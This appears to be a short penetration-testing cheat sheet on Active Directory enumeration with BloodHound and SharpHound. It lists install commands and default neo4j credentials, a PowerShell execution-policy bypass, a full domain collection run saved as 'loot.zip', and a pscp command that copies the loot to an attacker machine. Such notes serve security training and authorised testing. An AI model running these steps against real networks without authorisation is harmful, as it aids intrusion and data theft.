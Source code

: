 # DOMAIN ENUMERATION - BLOOD HOUND

## BLOOD HOUND

Bloodhound is a graphical interface that allows you to visually map out the network. This tool along with SharpHound which similar to PowerView takes the user, groups, trusts etc. of the network and collects them into .json files to be used inside of Bloodhound.

Well be focusing on how to collect the .json files and how to import them into Bloodhound.

> BloodHound Installation

* `apt-get install bloodhound`
* `neo4j console - default credentials -> neo4j:neo4j`

First, you need to bypass the execution policy of powershell, so you can run the scripts easily.

`powershell -ep bypass`

After that run the sharphound.ps1

`. .\sharphound.ps1`

After that, you need to invoke the bloodhound.

`Invoke-Bloodhound -CollectionMethod All -Domain <DOMAIN NAME.LOCAL> -ZipFileName loot.zip`

> TRANSFER LOOT TO YOUR ATTACKER MACHINE

COPY FILE THROUGH SSH

`Pscp  target@<ip>:<path to file > <path to local >`

If you are getting the incompatible collector error in bloodhound, make sure to install the latest version of Sharphound.ps1 and run it.
